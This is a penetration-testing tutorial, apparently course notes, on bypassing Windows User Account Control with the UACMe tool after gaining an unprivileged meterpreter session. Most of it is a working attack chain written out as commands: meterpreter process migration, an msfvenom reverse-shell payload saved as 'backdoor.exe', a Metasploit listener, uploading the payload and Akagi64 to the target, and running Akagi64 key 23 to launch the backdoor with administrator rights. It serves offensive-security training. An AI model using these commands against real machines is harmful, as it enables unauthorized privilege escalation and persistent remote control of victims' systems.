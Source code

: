 # Privilege Escalation: Bypassing UAC
> Bypassing UAC With UACMe

## Contents
- [](#)
- [](#)
- [](#)
- [](#)
- [](#)
- [](#)
- [](#)
- [](#)
- [](#)
- [](#)
- [](#)
- [](#)

## User Account Control (UAC)
- UAC is a Windows security feature introduced in Windows Vista that is used to prevent unauthorized changes from being made to the operating system.
- UAC is used to ensure that changes to the operating system require approval from the administrator or a user account that is part of the local administrators group.
- A non-privileged user attempting to execute a program with elevated privileges will be prompted with the UAC credential prompt (admiun password), whereas a privileged user will be prompted with a consent prompt (image below).
- Attacks can bypass UAC in order to execute malicious executables with elevated privileges.

## The Problem: UAC Pop-Up
- The problem you run into is when you're running a remote shell or a meterpreter session on a target machine, and you try to run a program with elevated privileges.
- A dialog box will pop up on the target system system, but b/c you are on the command line, you won't see and won't have any way to acknowledge it.
- Therefore you need a way to bypass that.

## Bypassing UAC
- In order to successfully bypass UAC we will need to have access to a user account that is a part of the local administrators group on the Windows target system.
- UAC allows a program to be executed with administrative privileges, consequently prompting the user for confirmation.
- UAC has various integrity levels ranging from low to high. If the UAC protection level is set below high, Windows programs can be executed with elevated privileges without prompting for user confirmation.
- There are multiple tools and techniques that can be used to bypass UAC, however the tool and technique used will depend on the version of Windows running on the target system.

## Tool: [UACMe](https://github.com/hfiref0x/UACME)
> Bypassing UAC With UACMe. Look over the README.md documentation.
- UACMe is an open-source, robust privilege escalation tool developed by @hfire0x. It can be used to bypass Windows UAC by leveraging various techniques.
- The UACMe GitHub repo contains a very well documented list of methods that can be used to bypass UAC on muiltiple versions of Windows ranging from Windows 7 to Window 11.
- It allows attackers to execute malicious payloads on a Windows target with admin/elevated privileges by abusing the inbuilt Windows AutoElevate tool.
- The UACMe GitHub repo has more than 60 exploits that can be used to bypass UAC depending on the version of Windows running on the target.
- NOTE: When selecting a Key, you need to find one that shows "unfixed" in the version of Windows your target machine is running.

## Practical: UACMe

### Scenario
- Unprivileged meterpreter session from system exploit via MSF.
- You get a shell on the system, you enumerate, and try to change the administrator password:
```
sysinfo
# This gives you O/S info (very important)
# Meterpreter: x86/windows (32-bit)

pgrep explorer
# This searches for the explorer process number
# Note the number (process ID for the explorer.exe process)

migrate [pgrep number]
# This should give you a 64-bit meterpreter session

sysinfo
# Meterpreter: x64/windows; good to go

getuid
#You are logged on as "admin" (NOT "administrator"--different). Need priv esc.

getprivs
# Shows you the privileges assigned to the current user
# Indicates an "unprivileged" (non-administrator) account

shell
# Opens a shell session with the current user's creds
```
- In the shell:
```
> net user
  # Shows two accounts: admin and administrator (plus Guest)

> net localgroup administrators
  # Shows admin is part of the administrators group
  # This means that this user can execute with administrator privileges (BUT via UAC)

> net user admin password123
  # Just an example: try to set a new password for the admin account
  # Returns: "System error 5 has occurred. Access is denied."
  # That's UAC blocking the elevated priv. command
```

### UACMe - Explanation 

#### [Description](https://github.com/hfiref0x/UACME#uacme)
- Defeating Windows User Account Control by abusing built-in Windows AutoElevate backdoor.

#### [Requirements](https://github.com/hfiref0x/UACME#system-requirements)
- x86-32/x64 Windows 7/8/8.1/10/11 (client, some methods however works on server version too).
- Admin account (account/user in the Administrators Group) with UAC set on default settings required.

#### [Usage](https://github.com/hfiref0x/UACME#usage)
- 32-Bit: `akagi32 [Key] [Param]`
- `64-Bit: akagi64 [Key] [Param]`
- The **_Key_** value can be obtained from the "Keys (click to expand/collapse)" just below the usage header.
- The **_Param_** value is an optional command (executable file name including full path) to run.
  - This second parameter can be empty
  - In this case the program will execute elevated cmd.exe from system32 folder.
- We are going to be using Key 23 (works best in this scenario).
  - `23. Author: Leo Davidson derivative`
  - Type: Dll Hijack
  - Method: IFileOperation
  - Target(s): \system32\pkgmgr.exe
  - Component(s): DismCore.dll
  - Implementation: ucmDismMethod
  - Works from: Windows 7 (7600)
  - Fixed in: unfixed
  - Code status: added in v2.5.1
- Run examples:
```
akagi32.exe 23
akagi64.exe 61
akagi32 23 c:\windows\system32\calc.exe
akagi64 61 c:\windows\system32\charmap.exe
```

**Note:** In real life you'll need to clone the repo and compile your own binaries ([see instructions](https://github.com/hfiref0x/UACME/tree/master#build) on the GitHub).

### MSFVenom
- You need to create a payload with MSFVenom and then transfer that to the target system.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[local ip] LPORT=1234 -f exe > backdoor.exe
```

### Set up a Listener
- You can use the MetaSploit handler:
```
> use multihandler
> set payload windows/meterpreter/reverse_tcp
> set LHOST [local ip]
> set LPORT 1234
> run
```

### Meterpreter: On the Target
- Go back into your meterpreter session and upload the UACMe binary and your backdoor.exe file.
```
> cd C:\\
> mkdir Temp
> cd Temp
> upload backdoor.exe
> upload tools/UACME/Akagi64.exe
> dir                             # should see both of those files
```

#### Problem
- If you tried to execute backdoor.exe to get your reverse shell, you could not because UAC would block it (confirmation pop-up).
- You need to BYPASS UAC FIRST, and that's what Akagi64.exe (with key 23) is for...

#### Bypass UAC & Execute Backdoor
- Get a shell on the target via your meterpreter session
```
> .\Akagi64.exe 23 C:\\Temp\backdoor.exe
```
- This should bypass UAC and give you the reverse shell on your listener (with administrator privs).
